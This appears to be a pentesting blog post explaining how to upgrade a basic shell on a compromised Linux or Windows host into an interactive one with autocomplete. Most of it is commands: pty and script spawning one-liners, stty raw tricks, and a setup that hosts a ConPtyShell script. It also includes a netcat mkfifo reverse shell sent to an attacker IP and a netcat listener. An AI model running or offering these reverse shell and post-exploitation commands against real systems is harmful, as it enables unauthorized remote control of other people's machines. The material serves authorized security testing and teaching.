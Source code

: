 ```yaml
---
title: "Upgrading an Autocomplete TTY Shell on Linux and Windows: A Guide for Pentesters"
date: 2024-11-06 10:10:00 +0700
categories: [Other]
tags: [Other, tty-shell, autocomplete]
pin: false
---
```


## Upgrading an Autocomplete TTY Shell on Linux and Windows: A Guide for Pentesters

### Introduction

When working with command-line interfaces on compromised machines, it is common to be limited to basic TTY shells that lack essential features like autocomplete and history. Upgrading these shells can significantly improve usability and efficiency during post-exploitation. This guide covers methods to upgrade TTY shells on both Linux and Windows targets to provide functionalities such as command history and tab completion, making them easier to work with.

### Verify Installed Language(s)

Before attempting to upgrade or interact with shells, it's important to verify which interpreters and shells are available on the target system. This helps determine the best approach to proceed. Here's how to check which interpreters or shells are installed:

```shell
# Check if Python is installed and its location
which python    # Output will show the path if Python 2.x is installed

# Check for Python 3 installation
which python3   # Output will show the path if Python 3.x is installed

# Verify if Bash is available
which bash      # Output will show the path if Bash is installed

# Check for PowerShell on a Linux machine (if applicable)
which pwsh      # This shows if PowerShell Core is available on Linux

# For Windows, check in Command Prompt or PowerShell for presence
where python    # Equivalent to 'which' in Windows
where python3
where bash
```

### Examples

Below are commands to help upgrade the basic TTY shell:

```bash
# Use Python 3 to spawn an upgraded shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Use Python 2 to spawn an upgraded shell
python -c 'import pty; pty.spawn("/bin/bash")'

# Alternative approach with os.system
echo os.system('/bin/bash')

# Spawn an interactive shell with /bin/sh
/bin/sh -i

# Use Perl to execute a shell
perl -e 'exec "/bin/sh";'

# Use Ruby to execute a shell
ruby -e 'exec "/bin/sh"'
```

### If Python Isn't Installed, Use:

```shell
# Use the script command to spawn an upgraded shell
script /dev/null -c bash
/usr/bin/script -qc /bin/bash /dev/null
```

### Reverse Shell Example

```bash
# Simple reverse shell using Netcat
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.xxx.xxx 9001 >/tmp/f
```

### Steps to Get an Autocomplete Shell

1. After choosing one of the methods above to upgrade your TTY shell, suspend it using:

    ```bash
    ctrl-z
    ```

2. On the attacker's machine, run:

    ```bash
    stty raw -echo
    stty -a  # Verify current terminal settings
    ```

3. Bring the shell to the foreground:

    ```bash
    fg
    ```

4. Press `Enter` twice to reactivate the session.

Now you should have a shell with autocomplete, history, and better usability features.

To have autocomplete on a Windows machine, you can also use:

- <a href="https://github.com/antonioCoco/ConPtyShell" target="_blank">ConPtyShell</a>

## A simple guide how you could use it:

To upgrade to an advanced shell on a Windows target using PowerShell, you can leverage the ConPtyShell method. Below is an example workflow for hosting and running the script:

On Kali Linux (Attacker's Machine)
```bash
# Host the PowerShell script
python3 -m http.server 80  
# to host Invoke-ConPtyShell.ps1

# In another terminal on Kali
stty raw -echo; (stty size; cat) | nc -lvnp 9001
```

To have autocomplete on a Linux machine, you can also use:

- <a href="https://github.com/brightio/penelope" target="_blank">penelope</a>
```shell
# Clone the repo, go to the directory and use the command:
./penelope.py 5555 -i eth0

# For more guidance, go to the repo.
```
